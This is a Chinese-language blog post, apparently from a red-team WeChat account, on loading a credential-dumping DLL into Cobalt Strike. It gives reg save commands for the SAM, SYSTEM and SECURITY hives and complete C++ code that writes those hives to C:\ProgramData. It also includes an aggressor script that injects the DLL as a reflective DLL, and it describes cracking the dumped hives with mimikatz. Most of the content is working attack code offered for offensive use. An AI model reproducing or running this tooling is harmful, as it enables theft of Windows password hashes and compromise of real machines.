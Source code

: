 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/FziKWjUsoO99iwZarCIZPQ)

  继续使用我们的 Reflective DLL 功能来武装我们的 CobaltStrike。

一般来说抓取注册表的方法如下：  

```
reg save hklm\sam sam.hive
 reg save hklm\system system.hive
 reg save hklm\security security.hive
```

然后在使用 mimikatz 来解密注册表。我们先使用 C++ 来实现这样的一个过程：

```
void dump_reg()
{
    HKEY hKey = 0x0;

    DWORD file_exist;

    //dump sam
    LPCWSTR lpSubKey = L"SAM";
    LPCWSTR  lpFile = L"C:\\ProgramData\\sam.save"; 
    RegOpenKeyEx(HKEY_LOCAL_MACHINE, lpSubKey, 0, 0x20000, &hKey);
    file_exist = RegSaveKeyExW(hKey, lpFile, 0x0, 2);

    //Check file exist
    if (file_exist == 183) {
        DeleteFileW(lpFile);
        RegSaveKeyW(hKey, lpFile, 0x0);
    }
    RegCloseKey(hKey);

    hKey = 0x0;
    //dump security
    lpSubKey = L"SECURITY";
    lpFile = L"C:\\ProgramData\\security.save";
    RegOpenKeyEx(HKEY_LOCAL_MACHINE, lpSubKey, 0, 0x20000, &hKey);
    file_exist = RegSaveKeyExW(hKey, lpFile, 0x0, 2);

    //Check file exist
    if (file_exist == 183) {
        DeleteFileW(lpFile);
        RegSaveKeyW(hKey, lpFile, 0x0);
    }
    RegCloseKey(hKey);

    hKey = 0x0;
    //dump system
    lpSubKey = L"SYSTEM";
    lpFile = L"C:\\ProgramData\\system.save";
    RegOpenKeyEx(HKEY_LOCAL_MACHINE, lpSubKey, 0, 0x20000, &hKey);
    file_exist = RegSaveKeyExW(hKey, lpFile, 0x0, 2);

    //Check file exist
    if (file_exist == 183) {
        DeleteFileW(lpFile);
        RegSaveKeyW(hKey, lpFile, 0x0);
    }
    RegCloseKey(hKey);

}
```

然后使用我们之前的方法，把它转换为反射型的 dll, 已上传至 github(x64):

https://github.com/lengjibo/RedTeamTools/tree/master/windows/samdump

 然后随便写个 cna 脚本来加载它：  

```
alias hello {
  bdllspawn($1, script_resource("reflective_dll.dll"), $2, "test dll", 5000, false);
}
```

执行

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08X3gL3cGqK2C2kdGIpyR4WHahlEboQ62qJdBSajicsnnUJXUqRrdIFZ65bAJcwByokS8OmlGazWfhA/640?wx_fmt=png)

导出成功，C:\ProgramData

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08X3gL3cGqK2C2kdGIpyR4WHPAO0ZJy5aib5tWwj2y6m8JricQPSGO5Q4o4XGqZGTzMWFY23nKo1OTsQ/640?wx_fmt=png)

mimikatz 解密:

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08X3gL3cGqK2C2kdGIpyR4WH7dk5PwAZVm9zTk87Hsibkrb5YgQByNyrLc2dXp4fRbTsW6kXYD1LbMw/640?wx_fmt=png)

     ▼

更多精彩推荐，请关注我们

▼

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XZjHeWkA6jN4ScHYyWRlpHPPgib1gYwMYGnDWRCQLbibiabBTc7Nch96m7jwN4PO4178phshVicWjiaeA/640?wx_fmt=png)